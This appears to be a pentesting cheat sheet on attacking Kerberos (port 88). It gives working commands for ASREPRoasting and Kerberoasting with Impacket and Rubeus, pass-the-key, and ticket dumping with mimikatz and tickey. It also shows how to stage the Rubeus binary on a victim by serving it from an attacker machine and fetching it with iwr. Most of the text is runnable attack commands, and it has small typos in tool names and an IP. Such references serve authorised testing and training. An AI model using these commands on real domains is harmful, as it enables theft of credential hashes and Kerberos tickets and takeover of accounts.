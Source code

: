 # Kerberos - 88

## Kerberos Information

Kerberos is a protocol for authentication, not authorization. In other words, it allows for the identification of each user who provides a secret password, but it does not validate which resources or services this user has access to. Active Directory makes use of Kerberos. Kerberos provides information about each user's privileges on this platform, but it is the responsibility of each service to determine whether the user has access to its resources.

Default Port: 88/tcp/udp

```text
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```

## Abuse Kerberos

### ASEPRoasting

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting. As soon as we have a username, we can use the GetNPUsers script from Impacket to retrieve its password hash:

```text
GetNPUsers.py domain/ -request -no-pass -dc-ip 10.10.10.11 -usersfile users.txt 2>/dev/null
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11
```

After capturing the hash, you can then copy the TGT in a file and try to crack it with john or hashcat.

Alternatively, we can use GetUserSPNs.py

```text
GetUsersSPNs.py htb.local/username:password@10.10.10.1671 -dc-ip 10.10.10.161 2>/dev/null
```

### Rubeus ASREPRoasting

```text
Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

### Kerberoasting from the Attacker Machine

If Kerberos is open, then you may try a Kerberoasting attack with GetUsersSPNs script from Impacket:

```text
impacket-GetUserSPNs domain.local/user:password -request 
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 10.10.10.10
```

If Kerberos was port forwarded to your localhost then you may try the following:

```text
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
```

### Kerberoasting on Victim Machine

#### Rubeus

Rubeus.exe is one of the many tools that can perform a Kerberoasting attack on the victim machine.

Clone rubeus.exe on the attacker machine

```text
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Set up a listener to transfer the file to the victim machines

```text
python -m http.server 80
```

Download the file from the attacker's machine.

```text
iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
```

Execute the Kerberoasting attack on the victim machine \(in this example we will perform a Kerberoasting with alternate credentials\)

```text
C:\temp\Rubeus.exe -> check the roating possibilities
C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
```

You will then see the hash that you can copy into the attacker machine and try to crack it with john or hashcat.

#### Rubeus Alternative

```text
Rubeus.exe kerberoast /outfile:output_TGS_file
```

```text
Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
```

### Pass the key \(PTK\)

```text
.\Rubeus.exe asktgt /domain: /user: /rc4: /ptt
```

### Harvesting Tickets from Windows

The lsass \(Local Security Authority Subsystem Service\) process, which is responsible for security in Windows, handles and stores tickets. As a result, in order to obtain tickets from a Windows machine, you must contact with lsass and request them. Only owned tickets can be retrieved as a non-administrative user; however, as a machine administrator, you can harvest all of them.

```text
mimikatz # sekurlsa::tickets /export
# Rubeus when Mimikatz doesn't work.
.\Rubeus dump [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

### Harvesting Tickets from Linux

Extract  tickets from Linux Kernel Keyrings \(read the repo\):

{% embed url="https://github.com/TarlogicSecurity/tickey" %}

```text
/tmp/tickey -i
```



